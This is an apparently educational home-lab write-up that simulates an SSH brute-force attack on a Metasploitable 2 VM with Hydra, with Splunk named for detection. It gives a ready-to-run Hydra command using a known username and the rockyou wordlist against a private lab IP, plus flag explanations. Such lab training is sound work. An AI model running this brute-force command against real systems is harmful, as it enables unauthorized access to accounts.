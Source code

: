 # 🔐 SSH Brute Force Attack using Hydra

## 🎯 Objective
Simulate a brute-force SSH attack on Metasploitable 2 using Hydra and detect the failed login attempts using Splunk.

---

## 🛠️ Tools & Setup

| Tool           | Role                                |
|----------------|-------------------------------------|
| Hydra (Kali)   | Performs brute-force on SSH login   |
| Metasploitable | Exposes SSH service (port 22)       |
| Splunk (Windows)| Monitors logs via rsyslog (UDP 514) |

- **Target IP (Metasploitable)**: `192.168.56.105`
- **Attacker IP (Kali)**: `192.168.56.103`
- **Splunk IP**: `192.168.56.104`

> 🔧 Ensure `rsyslog` is configured properly to forward logs from Metasploitable to Splunk.

---

## ⚔️ Attack Command (Hydra - SSH)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.105 -V -f


💡 Explanation:
-l msfadmin: Username on Metasploitable

-P rockyou.txt: Password list

ssh://: Target protocol (port 22)

-V: Verbose mode

-f: Stop after a valid credential is found
